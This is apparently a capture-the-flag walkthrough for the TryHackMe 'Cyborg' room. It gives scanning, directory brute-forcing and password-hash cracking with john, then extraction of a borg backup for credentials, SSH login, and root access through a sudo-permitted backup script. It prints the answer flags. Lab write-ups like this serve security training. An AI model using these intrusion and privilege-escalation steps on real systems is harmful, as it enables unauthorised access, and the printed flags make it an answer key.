

# Cyborg


https://tryhackme.com/room/cyborgt8




## Task 2 Compromise the System

#### Scan the machine, how many ports are open?

```bash
rustscan -a 10.10.212.209 -- -n -sVC
```



`2`


#### What service is running on port 22?


`ssh`


#### What service is running on port 80?


`http`


#### What is the user.txt flag?

```bash
gobuster dir -u http://10.10.212.209 \
             -w /usr/share/wordlists/dirb/common.txt \
             -t128
```


```bash
wget http://10.10.212.209/etc/squid/passwd
john --wordlist=/usr/share/wordlists/rockyou.txt passwd
```


```bash
wget http://10.10.212.209/admin/archive.tar
tar xvf archive.tar
cd home/field/dev/final_archive
cat README
```


```bash
sudo apt install borgbackup
borg extract --list home/field/dev/final_archive::music_archive
```


```bash
cat home/alex/Desktop/secret.txt
cat home/alex/Desktop/note.txt
```


```bash
ssh alex@10.10.212.209
cat root.txt
```



`flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}`


#### What is the root.txt flag?

```bash
sudo -l
ls -l /etc/mp3backups/backup.sh
cat /etc/mp3backups/backup.sh
```


```bash
sudo /etc/mp3backups/backup.sh -c 'cat /root/root.txt' 2>/dev/null
```



`flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}`


## Reference


